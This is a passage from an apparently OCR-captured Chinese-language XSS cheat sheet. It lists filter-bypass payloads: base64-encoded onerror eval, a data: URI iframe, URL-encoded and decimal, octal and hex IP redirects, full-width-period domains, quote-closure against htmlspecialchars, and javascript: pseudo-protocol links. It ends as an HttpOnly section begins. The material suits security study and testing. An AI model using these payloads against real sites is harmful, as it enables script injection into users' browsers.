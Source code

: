 


```js
base64绕过

<img src="x" onerror="eval(atob('ZG9jdW1lbnQubG9jYXRpb249J2h0dHA6Ly93d3cuYmFpZHUuY29tJw=='))">
<iframe src="data:text/html;base64,PHNjcmlwdD5hbGVydCgneHNzJyk8L3NjcmlwdD4=">
```

### 7.过滤url地址

    使用url编码
    
    <img src="x" onerror=document.location=`http://%77%77%77%2e%62%61%69%64%75%2e%63%6f%6d/`>
    
    javasc&#x72;&#x69;pt:alert('xsshttp://')
    
    使用IP
    
    1.十进制IP
    <img src="x" onerror=document.location=`http://2130706433/`>
    
    2.八进制IP
    <img src="x" onerror=document.location=`http://0177.0.0.01/`>
    
    3.hex
    <img src="x" onerror=document.location=`http://0x7f.0x0.0x0.0x1/`>
    4.html标签中用//可以代替http://
    <img src="x" onerror=document.location=`//www.baidu.com`>
    
    5.使用\\
    但是要注意在windows下\本身就有特殊用途，是一个path 的写法，所以\\在Windows下是file协议，在linux下才会是当前域的协议
    
    6.使用中文逗号代替英文逗号
    如果你在你在域名中输入中文句号浏览器会自动转化成英文的逗号
    <img src="x" onerror="document.location=`http://www。baidu。com`">//会自动跳转到百度

### 8.单引号闭合+htmlspecialchars函数绕过

    'onmouseover='alert(/xss/)

### 9.JavaScript伪协议

    "><a href=javascript:alert(/xss/)>                  o_n和<scr_ipt>过滤

## 8.HttpOnly绕过

### 1.什么是HttpOnly?

如果您在cookie中设置了HttpOnly属性，那么通过js脚本将无法读取到cookie信息，这样能有效的防止XSS攻击，具体一点的介绍请google进行搜索

### 2.javaEE的API是否支持?
